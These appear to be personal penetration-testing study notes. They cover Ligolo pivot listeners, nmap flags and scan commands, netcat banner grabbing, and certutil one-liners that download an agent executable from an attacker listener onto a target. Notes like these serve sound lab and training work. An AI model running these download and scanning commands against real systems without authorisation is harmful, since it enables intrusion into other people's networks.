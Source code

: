     ```
    listener_add --addr 0.0.0.0:11601 --to 0.0.0.0:11601
    ```
    
- File transfer
    - `listener_add --addr 0.0.0.0:1235  --to  127.0.0.1:80`
    - `certutil -urlcache -f [http://ms01](http://ms01):1235/filename output
    - certutil -urlcache -f [http://10.129.8.52:1235/agent-amd64.exe](http://10.129.8.52:1235/agent-amd64.exe) agent.exe
- [https://4pfsec.com/ligolo](https://4pfsec.com/ligolo)
- 

Open Relay

- Copy to clipboard
    - cat “” | xclip -selection clipboard
- Running nmap again after adding vhosts on etc files
- Wordlist
    - Seclist discovery webcontent raft-small.words

[https://book.hacktricks.xyz/](https://book.hacktricks.xyz/)

## nmap

- flags
    - -sS : TCP-SYN Scan
    - -sSU
    - -sT : TCP
    - -sU : UDP
    - -sn: disable port scan
    - -sV : version detection
    - -oA : output
    - -iL : perform scan on defined list
    - -p-
    - --packet-trace
    - --reason
    - --disable-arp-ping
    - --stats-every=5s
    - -v -vv
- sudo nmap -A -T4 $TARGET_IP
- sudo nmap $TARGET_IP --Pn -n --disable-arp-ping
- Host Discovery
    - sudo nmap 10.129.2.0/24 -sn -oA tnet | grep for | cut -d" " -f5
- Scan IP List
    - sudo nmap -sn -oA tnet -iL hosts.lst | grep for | cut -d" " -f5
- Output
    - xsltproc target.xml -o target.html
- Service Enumeration
    - -sV
    - sudo tcpdump -i eth0 host 10.10.14.2 and 10.129.2.28
    - nc -nv 10.129.2.28 25
- Nmap scripting engine
    - -sC
    - --script <name>
    - --script <category>
    - --script vuln
    - dns-nsid
    - 
- Performance
    - -T <0-5> : fast
    - --min-parallelism <number>
    - --intitail-rtt-timeout <time>
    - --max-rtt-timeout <time>
    - --min-rate <number>
    - --max-retries <number>
